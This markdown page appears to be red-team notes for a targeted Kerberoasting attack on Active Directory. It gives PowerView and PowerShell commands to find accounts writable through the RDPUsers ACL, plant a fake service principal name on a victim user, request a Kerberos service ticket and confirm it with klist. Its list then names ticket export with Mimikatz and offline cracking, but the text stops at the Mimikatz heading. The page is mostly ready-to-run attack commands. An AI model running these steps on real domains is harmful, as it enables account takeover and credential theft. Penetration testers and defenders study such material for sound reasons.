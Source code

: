 ## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Search all the members who have the specific group required on ACL's; In this case RDPUsers
- [x] 2. Check if the SPN does not already exist
- [x] 3. If not create a unique SPN for that account
- [x] 4. Request a TGS
- [x] 5. Export the tickets
- [x] 6. Crack the file created of that service using JTR or tgsrepcrack


## <span style="color:lightgreen">PowerView Dev</span>

### <span style="color:#F1C232">1. Check group rights on ACL's</span>

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### <span style="color:#F1C232">2. Check if the user already has a SPN</span>

```powershell
Get-DomainUser -Identity <user-here> | select serviceprincipalname
```

### <span style="color:#F1C232">3. Set a SPN for the user (must be unique for the domain)</span>

```powershell
Set-DomainoObject -Identity <user-here> -Set @{serviceprincipalname='ops/whatever1'}
```



## <span style="color:lightgreen">Cmdlet</span>

### <span style="color:#F1C232">4. Request TGS</span>

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```

### <span style="color:#F1C232">Check if the TGS has been granted</span>

```powershell
klist
```


## <span style="color:lightgreen">Invoke-Mimikatz</span>
